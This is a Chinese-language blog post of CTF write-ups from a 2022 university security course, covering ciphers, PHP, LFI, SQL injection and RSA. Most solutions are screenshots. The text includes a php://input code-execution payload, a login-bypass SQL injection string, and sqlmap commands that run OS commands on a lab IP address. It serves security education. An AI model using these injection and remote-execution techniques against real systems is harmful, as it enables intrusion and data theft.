 ```yaml
---
title: 22年网安小学期-CTF
tags: 
  - 网安小学期
  - CTF
permalink: /archives/65465/
published: 2022-07-09 16:43:47
---
```


# 木册木兰

![img](./images/1656402244227-1535d8a9-9932-489c-af63-b357e1b72be7.png)

- 下载附件，然后根据提示可以看出就是栅栏密码，所以直接解密得到

![img](./images/1656402270709-22a55c9b-fd6e-4cef-b874-ef8a6146eb6b.png)

# inputer

![img](./images/1656402323639-3d802464-d117-4c8b-99b0-2b5c96c80556.png)



- 先源码，这里要用到php://伪协议
- 直接抓包然后改包，构造`php://input`，利用`system("ls");`输出当前目录下所包含的文件，发包后发现可利用

![img](./images/1656403524194-775abc02-cd99-402a-8efb-b0be856fd9e6.png)

- 那就直接用命令`<?php system("cat /flag.txt");?>`获得flag

![img](./images/1656403931462-65c99e45-585b-4da9-aa67-ebbf7b040faf.png)

# WEB_blind_exec

![img](./images/1656418501152-cffd8b07-e4b3-4c7d-88e9-2af93a200893.png)

# LFI

![img](./images/1656425908372-f0b23cde-7697-4219-a001-09d5cd26f703.png)

# baby_sql

```
admin' or '1'='1
```

![img](./images/1656463477302-afa6aabf-6cba-40da-a6ab-9c6d651c78ce.png)

# WEB_randnum

![img](./images/1656463743749-0e0e3ae5-1757-4c23-a7d3-04eef75b7ca4.png)

# WEB_babyphp

![img](./images/1656463757900-66e0ad0f-8176-46e7-aade-bff9d0305c50.png)

# easy_getshell

- [pbot复现](https://www.anquanke.com/post/id/212603?from=groupmessage#h2-6)

![img](./images/1656489800858-4a805906-bd00-402f-b3cb-b4cba8d14c15.png)

# sessionlfi

- 源码中发现页面传参使用get方法，猜测存在sql注入漏洞

![img](./images/1656507098348-a7fb1359-f1d6-48d8-9fae-9f5423965b72.png)

> 测试payload：
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 -dbs
>
> 爆破数据库，共有4个数据库

![img](./images/1656507233920-96f5d286-73db-44df-adf0-8dabadee487b.png)

> 使用sqlmap的-os-cmd远程执行命令，看到根目录有flag字样文件
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="ls /"

![img](./images/1656507912473-95a1f3c3-29cc-4020-9ed2-c6b1d782801b.png)

> 最后继续使用远程命令查看得到flag
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="cat /flag_asflkhasklfhaklshfkjlashfjkas"

![img](./images/1656507964485-4c6551f9-be4e-48c3-bc18-37a4f769352b.png)

# happy

- 题目：

![img](./images/1656578511408-899d4caa-da5f-4f4d-b926-301072c6807c.png)

- 解题代码：

![img](./images/1660034476965-e38a5350-cba4-4601-b203-f106b0ffc8f4.png)

# rsarsa

- 题目：

![img](./images/1656578279183-f84801df-8c4f-4b41-9c7f-6d23eced6b56.png)

- 解题代码：

![img](./images/1660034540344-f99ee9de-c416-4530-8855-8f30f950ea9f.png)

